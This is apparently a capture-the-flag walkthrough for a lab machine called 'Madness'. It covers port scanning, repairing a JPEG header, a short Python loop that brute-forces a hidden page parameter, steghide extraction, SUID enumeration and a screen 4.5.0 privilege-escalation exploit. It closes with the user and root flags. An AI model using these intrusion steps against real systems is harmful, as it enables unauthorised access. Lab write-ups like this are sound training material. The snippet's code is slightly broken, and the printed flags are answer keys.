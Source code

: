 # Madness
# 29-05-2022
# little human
# level : easy


> Machine IP : `10.10.135.203`

> nmap scanning 
```
nmap -A -T5 10.10.135.203 -oN nmap.txt 
```
> in the site we can see a thm.jpg file
```
wget http://10.10.135.203/thm.jpg
```
> check the file exiftool
```
exiftool thm.jpg
```
> we can see the file signature is not ok. lets change it
```
hexeditor thm.jpg
```
> now change the file header to 
````
FF D8 FF E0 00 10 4A 46
49 46 00 01
```

> now open the file and we get the hidden directory into that image.

> create a python file to get the hidden secret page
```
import requests

for i in range(1,100):
    a = requests.get("http://10.10.135.203/th1s_1s_h1dd3n/?secret="+str(i)
    if "wrong" not in a.text:
        print(a.text)s

```
> now using that password extract the file from `thm.jpg`
```
steghide extract -xf thm.jpg
```
> we got the username which is encrypted with ROT10 algo. just decrypt it.

> now downlaod the joker image from the home page of this lab. and also extract the hidden file from that image using steghide. there is no password
```
steghide extract -sf 5iW7kC8.jpg

```
> now we have got the username and the password for ssh.

> after login just search for SUID bit set binary
```
find / -type f -user root -perm -04000 2>/dev/null
```
> here we can see that one binary `screen-4.5.00` has the suid bit set
> now in our local machine we can search for exploit for that binary
```
searchploit screen 4.5.0
```
> we can see that there is one script with local privilege escalation. we will use that script to escalate root privilege. just transfer the file to the vm using `scp` or `http.server` module of python and run the binary to get a root shell.

> now in the root shell we've just got search for the root.txt file
```
find / -type f -name root.txt 2>/dev/null
```


## Flag Submission

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| user.txt | THM{d5781e53b130efe2f94f9b0354a5e4ea} |
| root.txt | THM{5ecd98aa66a6abb670184d7547c8124a} |





#        THE END 
